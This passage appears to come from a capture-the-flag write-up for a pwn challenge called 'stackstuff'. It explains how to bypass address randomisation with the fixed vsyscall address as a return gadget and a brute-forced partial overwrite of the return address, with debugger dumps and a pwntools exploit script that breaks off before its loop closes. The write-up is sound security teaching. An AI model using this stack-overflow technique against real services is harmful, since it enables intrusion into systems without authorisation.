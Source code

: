 The purpose of vsyscalls is to increase performance by offloading certain syscalls to the userspace binary, however they are still a part of the kernel. The beneficial part of vsyscalls is that their addresses are fixed and aren't randomized. As a result, we don't need an infoleak to call them. For which one to call, I just went with `0xffffffffff600800`. I initially tried jumping straight to a `ret` instruction, however it would crash after the second gadget. So I tried jumping to the start of a syscall and it worked. If we place that rop gadget twice as the saved return address and the next QWORD, that will bring the code execution right to the address we partially overwrote.

Now for the partial overwrite. We can see that the address that we are going to be overwritten is going to be `0x000055555555508b` which is `handle_request+177`:

```
gef➤  x/4g 0x7fffffffdee8
0x7fffffffdee8:    0x0000555555554fd1    0x0000000000000000
0x7fffffffdef8:    0x000055555555508b    0x0000000000000002
gef➤  x/i 0x000055555555508b
   0x55555555508b <handle_request+177>:    lea    rsi,[rip+0x36d]        # 0x5555555553ff
```

Since if we were to reach that spot in the code we will get the flag, we will be overwriting it to be the same address. However there is one complication. That is that the base address is `0x0000555555554000`. This means that the randomization doesn't apply to the last `12` bits (since they are zeroed out, and the address is the base address plus the offset, the address will just be whatever the offset is). However since we need to overwrite the 16 least significant bits, we will have to brute force 4 of those bits. Since 2 to the power of 4 is 16, we should be able to guess the address in at most `16` tries.

Also one small thing, while debugging this program, you may need to view the pid and kill it.

## Exploit

Putting it all together, we have the following exploit:

```
from pwn import *

targetProcess = process('./stackstuff')
#gdb.attach(targetProcess)

# Initialize constants
flag = 0
i = 0x00

# Enter into the loop to brute force it
while flag == 0:

    # Establish the connection
    target = remote('127.0.0.1', 1514)

    # Filler from start of our input to return address
    payload = "0"*0x48

    # Our vsyscall gadget to act essentially as a rop nop
    vsyscall_ret = p64(0xffffffffff600800)

    payload += vsyscall_ret*2

    # Our least significant byte of our partial overwrite
    payload += "\x8b"

    # The byte which we will be brute forcing
    payload += chr(i)

    # Specify length of our input to be 90 bytes
    target.sendline('90')

```